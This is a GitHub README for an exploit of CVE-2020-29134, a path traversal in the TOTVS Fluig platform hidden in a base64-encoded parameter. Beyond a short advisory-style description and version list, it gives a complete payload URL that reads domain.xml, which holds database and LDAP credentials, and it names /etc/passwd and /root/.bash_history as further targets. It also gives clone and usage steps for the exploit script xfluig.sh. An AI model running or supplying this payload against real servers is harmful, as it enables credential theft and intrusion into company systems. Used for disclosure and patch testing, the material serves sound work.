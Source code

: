 # Totvs Fluig Platform
     
     Fluig is the productivity and collaboration platform that integrates with the ERP system,
     and your company's other systems to revolutionize the way you and your team work.
 
# CVE-2020-29134
     
     The TOTVS Fluig platform allows path traversal via parameter encoded in base64.
     When exploited, this vulnerability allows the reading of sensitive XML files, which contain
     data to access the database and, in some cases, LDAP connections and ERP system integrations.
     In addition, it is also possible to explore system files, such as /etc/passwd and /root/.bash_history
     
#### Versions affecteds 
    --
    <== Fluig Lake 1.7.0
    <== Fluig 1.6.5
    <== Fluig 1.6.4
    ...
#### Patched versions
    <== Fluig Lake 1.7.0-210303 (Patched)
    <== Fluig 1.6.5-210308 (Patched)
    <== Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector
     http://fluig.host.com/volume/stream/Rmx1aWc=/
#### Path traversal plain text
     ?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml
#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
#### Payload 
     http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Exploit-DB reference
     https://www.exploit-db.com/exploits/49622

     
# Clone Repository

     # git clone https://github.com/lucxssouza/CVE-2020-29134.git
     # cd CVE-2020-29134
     # chmod +x xfluig.sh

# Usage

     Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

     Ex2: ./xfluig.sh http://fluig.host.com:PORT
